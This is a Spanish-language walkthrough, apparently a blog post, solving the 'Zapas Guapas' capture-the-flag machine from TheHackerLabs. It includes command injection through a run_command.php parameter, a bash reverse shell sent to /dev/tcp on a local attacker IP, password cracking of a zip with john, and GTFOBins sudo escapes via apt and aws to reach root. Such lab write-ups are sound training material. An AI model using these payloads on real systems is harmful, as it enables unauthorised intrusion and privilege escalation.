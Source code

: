 ```yaml
---
layout: post
title: "Zapas Guapas"
date: 2024-06-07 15:20:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Zapas Guapas </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/zapas-guapas/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Zapasguapas/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Zapasguapas/arp.png){:.margin}

**2\.** Escaneando puertos y servicios activos del host.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/nmap.png){:.margin}

**3\.** Veo una pagina web pero sin mayor importancia.

`http://192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/80.png){:.margin}

**4\.** Fuzzeo recursos en la web.

`gobuster dir -u http//192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,js -q`

![img](/notas/public/img/thehackerlabs/Zapasguapas/gobuster.png){:.margin}

**5\.** Lo interesante esta en el login, revisando la fuente encuentro un fichero php que ejecuta comandos.

`http://192.168.1.6/login.html`

![img](/notas/public/img/thehackerlabs/Zapasguapas/login.png){:.margin}
![img](/notas/public/img/thehackerlabs/Zapasguapas/logincode.png){:.margin}

**6\.** Me dirijo al fichero con los parametros requeridos y pruebo con un comando.

`http://192.168.1.6/run_command.php?username=&password=id`

![img](/notas/public/img/thehackerlabs/Zapasguapas/runcommand.png){:.margin}

**7\.** Obteniendo una reverse shell.

_7.1- Me pongo en escucha_

`sudo nc -nvlp 443`

![img](/notas/public/img/thehackerlabs/Zapasguapas/nc.png){:.margin}

_7.2- Ingreso el comando para enviar la shell_

`http://192.168.1.6/run_command.php?username=&password=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Zapasguapas/bashi.png){:.margin}

_7.3- Recibo la conexion por nc_

![img](/notas/public/img/thehackerlabs/Zapasguapas/ncok.png){:.margin}

**8\.** Encuentro ciertas pistas, y ademas un zip que contiene un password.txt pero esta protegido con una contraseña para descomprimir.

`cat /etc/passwd | grep bash`

`ls /home/test/ /home/proadidas/ /home/pronike/`

`cat /home/proadidas/user.txt /home/pronike/nota.txt`

`ls /opt`

`unzip -l /opt/importante.zip`

`unzip /opt/importante.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/look.png){:.margin}

**9\.** Traendo el comprimido a mi maquina local y crackeando la pass.

_9.1- Lo paso a base64_

`base64 -w0 /opt/importante.zip; echo`

![img](/notas/public/img/thehackerlabs/Zapasguapas/base64encode.png){:.margin}

_9.2- Recupero el comprimido en local_

`echo "hash" | base64 -d -w0 > file.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/base64decode.png){:.margin}

_9.3- Crackeando la contraseña y descomprimiendo_

`zip2john file.zip > hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

`unzip file.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/john.png){:.margin}

**10\.** Accedo por ssh con las credenciales indicadas en el archivo.

`cat password.txt`

`ssh pronike@192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sshpronike.png){:.margin}

**11\.** Veo la nota anterior, y ademas tengo un binario que puedo ejecutar justamente como proadidas.

`cat nota.txt`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sudol.png){:.margin}

**12\.** En [gtfobins](https://gtfobins.github.io/gtfobins/apt/#sudo) podemos ver como usar el binario, en este caso saltar a proadidas.

_12.1- Esperamos un poco hasta que salte esta parte_

`sudo -u proadidas apt changelog apt`

![img](/notas/public/img/thehackerlabs/Zapasguapas/aptchangelog.png){:.margin}

_12.2- Me lanzo una bash y ya soy usuario proadidas_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/Zapasguapas/binbash.png)
![img](/notas/public/img/thehackerlabs/Zapasguapas/binbashok.png)

**13\.** Escalando privilegios.

_13.1- Hay un binario root, otra ves [gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)  y ejecuto el binario_

`sudo -l`

`sudo -u root aws help`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sudolproadidas.png){:.margin}

_13.2- Al final ingreso el comando para lanzarme una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/Zapasguapas/binbashroot.png){:.margin}

_\-> Ya somos root_

![img](/notas/public/img/thehackerlabs/Zapasguapas/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>